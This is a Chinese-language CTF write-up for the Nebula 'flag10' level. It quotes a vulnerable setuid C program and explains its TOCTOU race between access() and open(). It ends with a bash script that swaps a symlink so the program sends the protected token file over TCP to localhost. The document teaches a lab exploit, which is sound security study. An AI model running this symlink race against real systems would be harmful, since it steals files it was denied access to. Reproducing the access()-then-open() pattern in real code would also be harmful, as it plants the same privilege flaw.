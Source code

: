 ``` c
#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

可以看到，整个程序的逻辑是首先利用`access()`函数确定用户是否对文件具有读权限，如果是的话则建立TCP连接、打开读取文件传输。

这其中的trick在于**`access()`函数检查的是进程的`real user`对于一个文件的权限，而`open()`函数操作文件的权限则是取决于`effective use`的权限**。而这两个操作是分开的，所以这就造成了[TOCTOU(time of check to time of use)](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use)漏洞，这是一个**race condition**类型的漏洞利用。

我们可以创建一个链接文件，使得在`access()`检查的时候它链接到level10用户有读权限的文件，而在open时，使得它链接到token文件。

编写shell脚本（/tmp/flag10.sh）：

``` shell
#!/bin/bash

ln -fs /tmp/flag10.sh /tmp/flag10.ln
/home/flag10/flag10 /tmp/flag10.ln 127.0.0.1 &

for ((i = 0; i < 300; i++)); do
	echo $i > /dev/null
done

ln -fs /home/flag10/token /tmp/flag10.ln
```
